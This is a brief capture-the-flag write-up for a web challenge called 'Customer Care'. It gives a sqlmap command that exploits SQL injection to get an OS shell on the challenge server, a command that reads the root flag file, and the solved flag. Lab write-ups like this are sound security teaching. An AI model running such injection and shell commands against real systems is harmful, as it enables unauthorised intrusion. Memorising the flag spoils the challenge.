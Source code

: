 # Customer Care
After several attempts, we realize that this site checks the existence of a series of data (perhaps username) in the database and shows it with true and false.

![what does it do?](begin.png)

At the beginning, we can guess that this site has a SQLI vulnerability, and although we could do this manually, it is much easier to use a tool! **SQL MAP**
If you want to learn more about sqlmap, you can use this **[article](https://hackertarget.com/sqlmap-tutorial/)**.

According to the hint, this question seems that we should have shell access from this challenge and then look for a file. This command does this for us:

```

sqlmap -u "http://185.94.96.76:47561/index.php" --data "search=*" --dbms "mysql" --dbs --os-shell

```

Now that we were able to get the shell, it's time to go to root and look for the flag. for example, 'flag.txt' !

```

cat ../root/flag.txt

```

***Solved!*** For practice, it is good to do this manually (:

flag is: queraCTF{C@r1ng_ab0utS3cur1ty_iSCr33py_WGKNW23}

